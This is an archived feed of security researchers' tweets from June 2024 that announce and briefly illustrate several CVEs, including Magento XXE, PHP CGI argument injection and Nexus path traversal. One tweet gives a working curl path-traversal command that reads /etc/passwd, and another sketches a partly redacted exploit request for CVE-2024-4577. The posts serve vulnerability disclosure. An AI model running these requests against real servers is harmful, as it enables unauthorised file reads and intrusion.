

# chybeta
**https://twitter.com/chybeta/status/1805635705303187718 _at 2024-06-25, 16:14:33_**
<blockquote>
CVE-2024-34102 Pre Auth XXE in magento https://t.co/ZxRCmgc2eu
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>227</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1801196898692555138 _at 2024-06-13, 10:16:19_**
<blockquote>
CVE-2024-28995 https://t.co/VsXVXWrvRy
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>431</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1799078561141375026 _at 2024-06-07, 13:58:48_**
<blockquote>
CVE-2024-4577 PHP CGI Argument Injection

https://t.co/NYGKfQKM4a
</blockquote>

* https://github.com/11whoami99/CVE-2024-4577/blob/88e8aa48f001d9538418783cb16179e5dfc59769/CVE-2024-4577.yaml

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1799007762594324826 _at 2024-06-07, 09:17:29_**
<blockquote>
CVE-2024-4577 in  XAMPP with default Config 

POST /php-cgi/xxxx  HTTP/1.1
xxx: 1

xxxx"dir"xxxx
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>83</code></td>
<td>Favorites: <code>373</code></td>
</tr></table>

---

# steventseeley
**https://twitter.com/steventseeley/status/1798928176774791368 _at 2024-06-07, 04:01:14_**
<blockquote>
CVE-2024-29849 is neat :D https://t.co/8CRHiKlhYh
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>107</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1797717430338535509 _at 2024-06-03, 19:50:10_**
<blockquote>
PSA: curl can do variables. Example using Nexus CVE-2024-4956:

curl -v --variable hax=////../../../../etc/passwd --expand-url http://127.0.0.2:8081/{{hax:url}}

https://t.co/u0DR4P3hEJ
</blockquote>

* https://everything.curl.dev/cmdline/variables.html

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>77</code></td>
</tr></table>

---

